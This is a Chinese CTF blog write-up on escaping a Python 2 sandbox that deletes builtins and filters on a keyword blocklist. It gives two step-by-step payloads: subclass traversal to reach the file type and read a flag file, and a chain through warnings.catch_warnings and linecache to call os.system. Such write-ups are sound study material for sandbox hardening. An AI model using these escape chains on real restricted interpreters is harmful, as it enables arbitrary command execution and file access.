 ```yaml
---
title: python sandbox escape
date: 2016-09-16 11:33:11
tags: 
  - ctf
---
```


# 概述

前几天的华山杯出了一道python的沙盒逃逸，感觉挺有意思的。在网上搜索了一下，发现很早就出过这种类型的题，源码都差不多。学习了一下思路，这里总结一下：）

<!-- more -->

# 介绍

沙盒源码如下：
```python
#!/usr/bin/env python

from __future__ import print_function

print("Welcome to my Python sandbox! Enter commands below!")

banned = [  
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]

targets = __builtins__.__dict__.keys()  
targets.remove('raw_input')  
targets.remove('print')  
for x in targets:# 去除所有内置函数除print raw_input
    del __builtins__.__dict__[x]

while 1:  
    print(">>>", end=' ')
    data = raw_input()

    for no in banned:
        if no.lower() in data.lower():
            print("No bueno")
            break
    else: # this means nobreak
        exec data
```
不能出现banned列表中的字符，但是需要读取flag文件内容。
# 原理

绕过前面的限制，我们来一步一步看payload

### 方法一

```
>>> [].__class__
<type 'list'>
>>> {}.__class__
<type 'dict'>
>>> ().__class__
<type 'tuple'>
```
首先python的内置对象有一个__class__属性来存储类型，我们往上找他的父类使用__base__属性
```
>>> {}.__class__.__base__
<type 'object'>
>>> ().__class__.__base__
<type 'object'>
>>> [].__class__.__base__
<type 'object'>
```
可以看到返回object对象，因为python中一切均为对象，均继承object对象，得到object之后我们就可在通过属性__subclasses__来查看object的子类（包括所有的内置类）
```
>>> [].__class__.__base__.__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
```
回到我们的主要目的上，我们需要读取flag文件中的内容，在这些子类中有哪些是可以用来读取文件内容的呢？答案是file子类，首先查找一下file子类的位置。
```
>>> [].__class__.__base__.__subclasses__().index(file)
40
```
这样我们就可以通过这个来建立一个file类的别名读文件啦：）
```
>>> f=[].__class__.__base__.__subclasses__()[40]
>>> f('./flag.txt').read()
```
？？？没有任何内容打印出来，但是他没有报错说明存在flag.txt文件，我们尝试用他给的print函数来打印
```
>>> print(f('./flag.txt').read())
This is a Flag{enjoy_yourself_ctfer}
```
得到flag
### 方法二

同样的还有一种方法就是使用os模块来执行系统命令system，但是os被屏蔽
```
>>> import os
No bueno
```
我们得想其他办法来获取shell。通过上面的思路，我们需要找一个子类他能调用os模块，这里用到了`warnings.catch_warnings`类
```
>>> import warnings
>>> [].__class__.__base__.__subclasses__().index(warnings.catch_warnings)
59
>>> [].__class__.__base__.__subclasses__()[59]
<class 'warnings.catch_warnings'>
>>> [].__class__.__base__.__subclasses__()[59].__init__.func_globals.keys()
['filterwarnings', 'once_registry', 'WarningMessage', '_show_warning', 'filters', '_setoption', 'showwarning', '__all__', 'onceregistry', '__package__', 'simplefilter', 'default_action', '_getcategory', '__builtins__', 'catch_warnings', '__file__', 'warnpy3k', 'sys', '__name__', 'warn_explicit', 'types', 'warn', '_processoptions', 'defaultaction', '__doc__', 'linecache', '_OptionError', 'resetwarnings', 'formatwarning', '_getaction']
```
接下来再找`linecache`
```
>>> [].__class__.__base__.__subclasses__()[59].__init__.func_globals.keys().index('linecache')
25
>>> [].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__.keys()
['updatecache', 'clearcache', '__all__', '__builtins__', '__file__', 'cache', 'checkcache', 'getline', '__package__', 'sys', 'getlines', '__name__', 'os', '__doc__']
```
可以看到这里可以调用os模块，接下来就调用system函数了
```
>>> [].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12]
<module 'os' from '/usr/lib/python2.7/os.pyc'>
>>> [].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12].__dict__.keys().index('system')
144
```
整理一下
```
>>> a=[].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12]
>>> a
<module 'os' from '/usr/lib/python2.7/os.pyc'>
>>> s=a.__dict__.keys().index('system')
>>> s
144
>>> s=a.__dict__.keys()[144]
>>> s
'system'
>>> s=a.__dict__.values()[144]
>>> s('pwd')
/home/xxxx/Desktop/code/python-code/test
```
好了现在可以执行系统命令了，cat一下flag
```
>>> s('cat flag.txt')
This is a Flag{enjoy_yourself_ctfer}
```

# 总结

通过上面的python沙盒逃逸，发现读python官网手册还是很有必要的，找个时间一点一点看：）共勉

# 参考

https://hexplo.it/escaping-the-csawctf-python-sandbox/


